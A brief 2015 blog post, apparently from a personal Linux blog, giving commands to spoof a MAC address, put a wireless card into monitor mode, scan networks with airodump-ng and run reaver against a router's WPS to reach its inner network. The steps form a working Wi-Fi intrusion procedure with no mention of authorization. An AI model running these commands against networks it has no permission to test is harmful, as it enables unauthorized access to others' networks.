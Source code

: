 ```yaml
---
layout: post
title: "Use reave for testing wireless security"
date: 2015-04-28 19:37
comments: true
categories: Linux
---
```

For those who want to test the wireless security(Wireless Router), following is a serial of tools for automatically scan the WIFI and try to find the entrance to inner network.    
### Preparation
Install following packages:    

```
$ sudo apt-get install macchanger  aircrack-ng reaver

```
### Testing 
Suppose the wireless port in our equipment is mlan0, following are the detailed steps:     

```
# macchanger -m 00:11:22:33:44:55 mlan0
# airmon-ng start mlan0
# ifconfig mlan0mon down
# macchanger -m 00:11:22:33:44:55 mlan0mon
# ifconfig mlan0mon up
# airodump-ng mlan0mon
# reaver -i mlan0mon -b xx:xx:xx:xx:xx -vv -dh-small

```

